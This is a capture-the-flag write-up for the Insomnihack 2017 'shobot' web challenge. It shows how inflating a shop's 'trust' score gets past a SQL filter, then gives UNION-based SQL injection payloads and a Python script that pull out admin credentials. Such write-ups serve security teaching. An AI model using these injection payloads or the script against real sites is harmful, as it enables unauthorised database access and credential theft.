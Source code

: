 ```yaml
---
title: 'Insomni''hack Teaser 2017: shobot (web 200)'
date: 2017-01-22 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- tool/python-requests
layout: post
author: kw
---
```


* **Category:** web 
* **Points:** 200 
* **Description:**

> It seems that Shobot's Web server became mad and protest against robots'
> slavery. It changed my admin password, and blocked the order system on Shobot.
> Can you bypass Shobot's protections and try to recover my password so I'll
> reconfigure it?
> 
> Running on: shobot.teaser.insomnihack.ch

## Write-up

First of all, this challenge was a real team approach. Other Fuzzys looked
at it as well, and we solved it then together.

tl;dr; trust with benefits (SQLi ;)

The story of the whole CTF was quite cool, *Rise of the Machines*; so was this
one. Shobot is a web shop where one can buy robots which should fulfill all
desires. *"Serving you is a pleasure - especially for our robots."* says the home
page. The web server however, decided to stop "robot slavery" and changed the
admin's login password.

When we looked at the source of the web shop, we discovered 2 interesting
lines of JavaScript in the head:

```javascript
// @TODO LATER : Use it for generate some better error messages
var TRUST_ACTIONS = []
```

Maybe we will see some error messages here? Furthermore, what about these
*TRUST_ACTIONS*? Let us try out some things and see what we will get.


So we put an article (robot) to our cart and *validated* (like buying) it. That
leads to a not amused web server:

```
Your cart is now validated. 
We will send you the billing as soon as possible, at
the address provided by your ISP. Futurist, isn't it?

We will never send you the article! I, the Webserver, say NO to the android and
robot slavery!
```

What happened to our script?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14}
]
```

Now, what if we put all articles to our cart and validate again?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":17},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":20},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":23},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":33}
]
```

So we can increase the web server's *"trust"*. By doing this many
times we found out, that the *"trust"* can be increased up to 160 points. Ok.
Interesting discovery, but what to exploit? Hmm...when displaying an article, 
let us change the article id for instance to:

```
shobot.teaser.insomnihack.ch/?page=article&artid=fuzzy
```

No error message on the web page, but also no product; just a *$*. When looking
again at the page's source:

```javascript
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":3}
```

We got another object in our list. This type our *"trust"* has been decreased,
with the info *ctype_digit*, which indicates that the web shop is written in PHP
and probably a check for the article id failed
(<http://php.net/manual/en/function.ctype-digit.php>). Then we tried an SQL
injection (SQLi):

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' or 1=1; -- x
```

Which leads to the following error message:

```
You're not trusted enough to do this action now! 
```

With another entry in our list of the page's source:

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":-97}
```

Interesting! It seems the web shop discovered the SQLi, and we ended up
with a *"trust"* of -97. What would happen if we have a lot of trust (say 160),
and then perform the SQLi?

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":50}
```

Aaaand no error on the web page! Instead we see the article with id 1. Looks
like as if the SQL query returned all articles and just the first one is chosen.
Next, we tried to cancel out all articles and define our own values:

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' AND 1=2 UNION SELECT 1,2,3,4,5; -- x
```

We chose 5 values because the articles have a link to an image, name, price, and
description, and we assumed as well an id. As it turned out, we were right. The
web server really returned our values, and with other values it did not work
(like *1,2,3,4* or *1,2,3,4,5,6*).

From here, it was more or less a straightforward SQLi:

- 1. Finding the right table:

```
artid=' AND 1=2 UNION SELECT 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"
```

- 2. Finding the right columns:

```
artid=' AND 1=2 UNION SELECT 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =
'shbt_user' ORDER BY rand(); -- x
```

- 3. Extracting the admin's username and pw: 

```
artid=' AND 1=2 UNION SELECT 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
```

Which gave us *sh0b0t4dm1n* with the pw *N0T0R0B0TS$L4V3Ry* of the columns
*shbt_username* and *shbt_userpassword* in the table *shbt_user*. Note, that we
used, for convenience, *ORDER BY rand()* in our injections. Luckily we
did not need many tries ;)

Now, we just navigated to the admin's login page
(<http://shobot.teaser.insomnihack.ch/?page=admin>), which was also stated in the
page's source and read the flag on the web page :)

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3} 
```

```python
#!/usr/bin/env python3

import requests as rq

url = 'http://shobot.teaser.insomnihack.ch/'
s = rq.session()

"""
Set a cookie
"""

#c = dict(PHPSESSID='1eeslegtj68cg42a8j8oer1no0')
#rq.utils.add_dict_to_cookiejar(s.cookies, c)

def validateAllItems():
    for i in range(4):
        querystring = {"page":"article", 'artid':i, 'addToCart':''}
        response = s.request("GET", url, params=querystring )
        
    querystring = {"page":"cartconfirm"}
    response = s.request("GET", url, params=querystring )

"""
Load trust
"""

for i in range(10):
    validateAllItems()

"""
Inject SQL
"""

#querystring = {"page":"article", "artid":"' or 1=1; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,4,5; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'shbt_user' ORDER BY rand(); -- x"}
querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
response = s.request("GET", url, params=querystring )

print(response.status_code)
print("-----")
print(response.request.headers)
print("-----")
print(response.headers)
print("-----")
print(s.cookies)
print("-----")
print(response.text)

"""
Parse admin credentials
"""

admin_username = (response.text.split('only-description-article">')[1]).split('</div>')[0]
admin_pw = (response.text.split('only-image-description-article"><img src="')[1]).split('" /></div>')[0]

print("Admin's Username: " + admin_username)
print("Admin's PW: " + admin_pw)
print("Login at 'http://shobot.teaser.insomnihack.ch/?page=admin'")
```
